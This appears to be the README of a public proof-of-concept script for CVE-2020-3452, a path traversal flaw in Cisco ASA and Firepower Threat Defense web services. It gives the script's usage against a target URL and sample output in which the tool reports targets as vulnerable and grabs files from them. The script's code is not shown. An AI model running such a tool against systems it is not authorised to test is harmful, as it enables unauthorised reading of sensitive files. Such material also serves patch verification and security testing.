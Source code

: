 # Cisco Adaptive Security Appliance Software and Firepower Threat Defense Software Web Services Path Traversal Vulnerability

# CVE-2020-3452

Usage: CVE-2020-3452.py https://target.com

Vulnerability description: A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

Sample output:
```
➜  Cisco-ASA-FTD-Web-Services-Traversal git:(main) ✗ python CVE-2020-3452.py https://target
+-------------------------------------------------------------+

- [ Cisco ASA / FTD Web Services Traversal Vulnerability ]

-       -[ CVE-2020-3452 - PoC by: LiquidSky ^_^ ]-

+-------------------------------------------------------------+
[*] Checking potential target : https://target
[+] https://target is vulnerable... 
[+] Grabbing logo.gif from the host.
[+] https://target is vulnerable... 
[+] Grabbing http_auth.html from the host.
[+] https://target is vulnerable...
```
